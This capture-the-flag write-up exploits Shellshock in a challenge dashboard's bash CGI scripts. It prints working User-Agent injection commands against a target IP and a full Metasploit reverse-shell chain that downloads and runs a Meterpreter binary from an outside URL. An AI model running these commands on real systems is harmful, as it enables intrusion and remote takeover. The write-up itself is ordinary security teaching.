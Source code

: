 Target: 54.83.28.186

Note: I did won't be saying how to get Flag 5, as I got an "incorrect" way from another group after the competition and don't want to spoil their secret.

This challenge had a System Monitoring dashboard which had a few CGI Scripts.  The names of the CGI files were standard linux binaries (ps, who, ifconfig, etc).  This led me to believe the CGI Scripts were just bash scripts, which had a major vulnerability recently (September 2014).  The dashboard had a "Package List" so I went there to confirm the version of bash and saw it was at 4.2-2, which is vulnerable to Shellshock.

Since Apache passes the User Agent to the CGI Scripts, it is possible to exploit over the web.  I had used a simple curl string to confirm the server was vulnerable: `curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls' https://54.83.28.186/cgi-bin/sysinfo.cgi`.  Once I confirmed it was vulnerable I had copied a list of all the filenames the www-data had access to via: `curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/find /' https://54.83.28.186/cgi-bin/sysinfo.cgi > files.lst`.  Running grep flag files.lst, I was able to find 4 flag locations, a simple cat would retrieve the flags.  Unfortunately, the fifth flag was not there, I had done recursive grep for NCL- to search the contents of every file www-data had access to.  No luck.

In order to perform the actual exploit; I assume you will need a shell, so here is how to load meterpreter.  Since this is a Reverse Connect, you will need to ensure that the <PORT> specified below is routable over the WAN by most likely creating a NAT Rule.

Generate the payload with: `msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R | msfencode -t elf -o meterpreter -e generic/none` and then upload it to a webserver.  Once it is uploaded open msfconsole and run:
<ul>
	<li>use exploit/multi/handler</li>
	<li>set LHOST 0.0.0.0</li>
	<li>set LPORT <PORT></li>
	<li>set payload linux/x86/meterpreter/reverse_tcp</li>
	<li>exploit</li>
</ul>
Open a new terminal window and execute the meterpreter shell on the victim by running:

<ul>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/rm -f /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/curl <url to meterpreter> -o /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/chmod +x /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
	<li>curl -k -A '() { :;}; echo "Content-Type: text/plain"; echo; /tmp/meterpreter;' https://54.83.28.186/cgi-bin/sysinfo.cgi</li>
</ul>

And back on your metasploit session, you should have a meterpreter session; simply enter `shell` and you should be granted with a full shell on the victim!
